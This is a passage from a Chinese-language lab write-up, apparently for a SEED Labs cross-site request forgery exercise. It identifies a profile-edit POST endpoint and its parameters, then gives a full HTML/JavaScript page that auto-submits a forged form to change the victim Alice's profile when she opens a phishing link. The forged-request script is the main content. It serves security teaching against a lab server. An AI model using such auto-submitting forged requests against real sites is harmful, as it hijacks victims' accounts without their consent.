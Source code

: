 可以看到请求方式为 POST, url 为：`http://www.seed-server.com/action/profile/edit`

参数有：`name`(用户名）, `briefdescription`（用户简介）, `accesslevel[i]`（修改 i 部分的权限，2为公开）, `guid`（用户 id）

接下来我们编写攻击脚本，修改 attaker 的 `editprofile.html` 文件为：

```javascript
<html>
<body>
    <h1>This page forges an HTTP POST request.</h1>
    
    <script type="text/javascript">
        function forge_post() {
            var fields = ""; // 用于存储表单的字段

            // 添加隐藏字段 'name'，值为 'Alice'
            fields += "<input type='hidden' name='name' value='Alice'>";
            // 添加隐藏字段 'briefdescription'，值为 'Samy is my Hero'
            fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero'>";
            // 添加隐藏字段 'accesslevel[briefdescription]'，值为 '2'
            fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
            // 添加隐藏字段 'guid'，值为 '56'
            fields += "<input type='hidden' name='guid' value='56'>";

            // 创建一个新的表单元素
            var p = document.createElement("form");
            // 设置表单的提交目标 URL（攻击目标网站的特定路径）
            p.action = "http://www.seed-server.com/action/profile/edit";
            // 将上面定义的隐藏字段添加到表单的内部 HTML 中
            p.innerHTML = fields;
            // 设置表单的提交方法为 POST
            p.method = "post";

            // 将表单添加到当前页面的 DOM 中（页面的 body 部分）
            document.body.appendChild(p);
            // 自动提交表单，向目标服务器发送伪造的 POST 请求
            p.submit();
        }

        // 在页面加载完成后，自动执行 forge_post() 函数
        window.onload = function() { forge_post(); }
    </script>
</body>
</html>

```

可以预想到，只要 `Alice` 打开了链接，表单就会自动提交并执行攻击脚本。

接下来，同样是设置钓鱼链接：http://www.attacker32.com/editprofile.html
